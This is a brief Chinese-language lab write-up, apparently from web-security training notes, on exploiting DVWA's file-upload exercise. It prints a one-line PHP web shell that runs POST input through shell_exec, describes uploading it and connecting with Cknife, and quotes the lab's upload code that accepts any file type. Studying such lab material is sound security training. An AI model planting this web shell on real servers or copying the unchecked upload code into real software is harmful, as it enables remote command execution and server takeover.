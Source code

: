 在网页下用 hackbar 通过 POST 的一句话木马：

```php
<?php echo shell_exec($_POST['a']); ?>
```

2. 上传一句话木马直接在网页查到文件

![](/pics/WEB集训/三/1.png)

![](/pics/WEB集训/三/2.png)

1. Cknife 连接

![](/pics/WEB集训/三/3.png)

源码：

```php
 <?php
    if (isset($_POST['Upload'])) {
            $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
            //上传路径为../../hackable/uploads/
            $target_path = $target_path . basename( $_FILES['uploaded']['name']);
            //上传路径加上上传的文件名
            if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
            //对是否上传成功做出判断，因此所有格式的文件都能上传
                echo '<pre>';
                echo 'Your image was not uploaded.';
                echo '</pre>';
              } else {
                echo '<pre>';
                echo $target_path . ' succesfully uploaded!';
                echo '</pre>';
```
